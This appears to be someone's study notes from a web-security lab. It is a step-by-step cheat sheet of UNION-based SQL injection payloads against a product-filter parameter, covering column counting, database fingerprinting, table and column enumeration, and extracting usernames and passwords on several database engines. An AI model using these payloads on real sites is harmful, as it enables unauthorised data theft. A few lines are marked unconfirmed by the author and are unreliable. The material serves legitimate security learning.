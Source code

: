 Assuming: GET /filter?category=Tech+gifts HTTP/1.1

Checkpoint 1. Determine number of columns

    Method 1:
      =Tech+gifts' ORDER BY 1-- HTTP/1.1          // note must replace -- with # for comment in MySQL
      =Tech+gifts' ORDER BY 2-- 
      =Tech+gifts' ORDER BY 3-- 
      etc. 
    
    Method 2:
      =Tech+gifts' UNION SELECT NULL-- HTTP/1.1    // note must use THIS FOR ORACLE: ' UNION SELECT NULL FROM DUAL --
      =Tech+gifts' UNION SELECT NULL,NULL-- 
      =Tech+gifts' UNION SELECT NULL,NULL,NULL-- 
      etc.
    
    
Checkpoint 2. Determine columns with a useful data type

      =Tech+gifts' UNION SELECT 'a',NULL,NULL,NULL-- 
      =Tech+gifts' UNION SELECT NULL,'a',NULL,NULL--
      =Tech+gifts' UNION SELECT NULL,NULL,'a',NULL--
      =Tech+gifts' UNION SELECT NULL,NULL,NULL,'a'--
      
Checkpoint 3. Examine Database

      Microsoft, MySQL:       SELECT @@version
      Oracle:                 SELECT * FROM v$version
      PostgreSQL:             SELECT version() 
      
      Example for Microsoft:  =Tech+gifts' UNION SELECT @@version,NULL--
      Example for Oracle:     =Tech+gifts' UNION SELECT banner,NULL FROM v$version--
      
Checkpoint 4. List contents of the Database 

    Works for all except Oracle
      1. =Tech+gifts' UNION SELECT table_name,NULL FROM information_schema.tables--
      2. =Tech+gifts' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 'Users'--
      3. =Tech+gifts' UNION SELECT username_sdfsd,password_asd FROM users_verwlw--
          https://www.postgresql.org/docs/9.5/infoschema-columns.html
    
    Listing Contents for Oracle:
      1. =Tech+gifts' UNION SELECT table_name,NULL FROM all_tables--
      2. =Tech+gifts' UNION SELECT column_name,null FROM all_tab_columns WHERE table_name = 'Users'--
      3. =Tech+gifts' UNION SELECT username_sdfsd,password_asd FROM users_verwlw--	
          https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286
     
Checkpoint 5. Retrieve Multiple Values within a single column
    
    =Tech+gifts' UNION SELECT null,username || password FROM users--    // Oracle and PostgreSQL
    =Tech+gifts' UNION SELECT null,username + password FROM users--     // Microsoft *** NEED CONFIRMATION
    =Tech+gifts' UNION SELECT null,username password FROM users--       // MySQL (notice the space) *** NEED CONFIRMATION
        
    
